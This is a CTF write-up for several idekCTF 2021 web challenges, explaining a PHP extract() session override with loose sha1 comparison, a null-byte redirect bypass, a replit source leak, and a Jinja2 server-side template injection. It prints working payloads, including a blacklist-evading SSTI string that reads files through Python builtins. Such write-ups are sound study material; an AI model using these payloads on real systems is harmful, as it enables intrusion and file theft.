





# idekCTF-2021
* Category: Web 
* Name: Cookie-and-milk
* Level: None 
* The challenges only main page and included php source

# Source Code Analysis
```c
include(__DIR__."/lib.php");
extract($_GET);

if ($_SESSION['idek'] === $_COOKIE['idek'])
{
    echo "I love c0000000000000000000000000000000000000kie";
}

else if ( sha1($_SESSION['idek']) == sha1($_COOKIE['idek']) )
{
    echo $flag;
}

show_source(__FILE__);
?>
```
* The source code nothing special i attention `extract($_GET);` i explained this function, a function named extract() to take all provided GET and POST requests and assign them to internal variables.This function will overwrite any previously defined variables, including server variables.if you want get the flag, the session must equals the cookie `$_SESSION['idek'] == $_COOKIE['idek']`, but this line of code `else if ( sha1($_SESSION['idek']) == sha1($_COOKIE['idek']) )` used `==` it's called `Loose Comparison` lead to bugs or vulnerability exploit.

# Solution
* I used [SHA1](https://github.com/spaze/hashes/blob/master/sha1.md) in this github repo all strings have different values but when encrypt sha1 and loose compare it will return true 
# Payload 
```c
http://cookie-and-milk.rf.gd/?_SESSION[idek]=aa3OFF9m&_COOKIE[idek]=w9KASOk6Ikap&i=1
```
# FLAG

* `idek{C0okie_s1ea1ing_1s_c0ol!!!}`

# Memory-of-PHP
* Techniques: `CRLF`
* in this challenges similar challenges above it's included php source 

# Source Code Analysis
```c
<?php

include(__DIR__."/lib.php");
$check = substr($_SERVER['QUERY_STRING'], 0, 32);
if (preg_match("/best-team/i", $check))
{
    echo "Who is the best team?";
}
if ($_GET['best-team'] === "idek_is_the_best")
{
    echo "That a right answer, Here is my prize, <br>";
    echo $flag;
}
show_source(__FILE__);
?>
```
* I attention line of code `if ($_GET['best-team'] === "idek_is_the_best")`, if `best-team` equals `idek_is_the_best` it will print `That a right answer, Here is my prize` after that you must bypass success and server return flag for you
# Solution
```c
http://memory-of-php.rf.gd/?best-team=idek_is_the_best
```


* Now i access `/secure-bypass.php` i have new source, my target bypass then get flag


* Let's source code analysis 
* First line of code `if (isset($_GET['url'][15]))` parameter `url` with `GET` method and string length require 15 characters
* Seconds line of code `header("location: {$_GET['url']}");` will redirect url you input but in this challenges i realized can used `CRLF` or `nullbyte` for bypass
* I found blog instruction this techniques [CRLF (%0D%0A) Injection](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a)
# Payload
```c
http://memory-of-php.rf.gd/secure-bypass.php?url=d4rkp0w4rrrrrrrr%00
```
# FLAG

* `idek{nu11_by1e_bypass1ng_1s_C0ol!_ftw_br0!!!!}`
# Sourceless-Guessy-Web
* The challenges only main page

* I access `robots.txt` server return `replit.com`

* I think this challenges involve `replit` i used `dirsearch` but it's nothing 

* I found a tutorial about `replit` if you add a `/__repl` to the url you'll get redirected to the source repl.
# Payload
```c
https://sgw.chal.imaginaryctf.org/__repl
```
* Well, finally i have a flag =))))
# Flag

* `idek{why_do_people_keep_st0ring_secrets_0n_replit_w1th0ut_3nv}`

# Baby JinJail and jinjail
* Techniques: `SSTI`
* Overview two challenge have 1 name box
* Two challenges same a source code so i use 1 payload for 2 challanges
* In this challenges i and my brother solved


# Source Code Analysis
```c
from flask import Flask, render_template_string, request

app = Flask(__name__)
blacklist = [ 
    'request',
    'config',
    'self',
    'class',
    'flag',
    '0',
    '1',
    '2',
    '3',
    '4',
    '5',
    '6',
    '7',
    '8',
    '9',
    '"',
    '\'',
    '.',
    '\\',
    '`',
    '%',
    '#',
    ]

error_page = 
        
        
        <center>
           <section class="section">
              <div class="container">
                 <h1 class="title">Error :(</h1>
                 <p>Your request was blocked. Please try again!</p>
              </div>
           </section>
        </center>
        
        


@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        if not request.form['q']:
            return render_template_string(error_page)

        if len(request.form) > 1:
            return render_template_string(error_page)

        query = request.form['q'].lower()
        if '{' in query and any([bad in query for bad in blacklist]):
            return render_template_string(error_page)

        page = \
            
        {}
        {}
        <center>
           <section class="section">
              <div class="container">
                 <h1 class="title">You have entered the raffle!</h1>
                 <ul class=flashes>
                    <label>Hey {}! We have received your entry! Good luck!</label>
                 </ul>
                 </br>
              </div>
           </section>
        </center>
        {}
          .format(query)

    elif request.method == 'GET':
        page = \
            
        
        
        <center>
            <section class="section">
              <div class="container">
                 <h1 class="title">Welcome to the idekCTF raffle!</h1>
                 <p>Enter your name below for a chance to win!</p>
                 <form action='/' method='POST' align='center'>
                    <p><input name='q' style='text-align: center;' type='text' placeholder='your name' /></p>
                    <p><input value='Submit' style='text-align: center;' type='submit' /></p>
                 </form>
              </div>
           </section>
        </center>
        
        
    return render_template_string(page)


app.run('0.0.0.0', 1337)

```
* The challenges only route
* `q` parameter is not given more than 1 
* `blacklist` checking elements you input if input duplicate in backlist it will return `false` and `render_template_string(error_page)`
* Even if `false` it's still return `render_template_string` but template `error_page` not allowed input => `impossible SSTI`

* If bypass success blacklist it's will return `render_template_string`, inside template have input of you, that's `q`. Used `render_template_string` it will put your input into template => maybe SSTI
* Important things must bypass `blacklist`
# IDEA
* I used this payload below
```c
{{cycler.__init__.__globals__.__builtins__.open("flag").read()}}
```
* Bypass `.` = `|attr()`
* Bypass `" '` = `dict()|join`
# Solution
* Now i bypas this payload 
```c
{{cycler.__init__.__globals__.__builtins__.open("flag").read()}}
```
* After bypass
```c
{{(cycler|attr(dict(__ini=a,t__=b)|join)|attr(dict(__glob=c,als__=d)|join))[dict(__buil=buil,tins__=tins)|join][dict(op=op,en=en)|join](dict(fl=fl,ag=ag)|join)|attr(dict(re=re,ad=ad)|join)()}}
```
* Well, finally i have a flag =))) 

### JinJail
* The source code same `baby-jinjail` but it's check length of input if you input `> 256` it will return `false` but my payload `< 256` so i used 1 payload for two challenges.

# FLAG
* Baby-jinjail `idek{n0w_g0_s0lv3_j1nj41l_pl34se}`
* JinJail `idek{us1nG_f1lt3rs_t0_byP4s5_f1lt3r5}`
### Thanks
* Thanks bro [Taidh](https://github.com/DauHoangTai) supported me ^_^
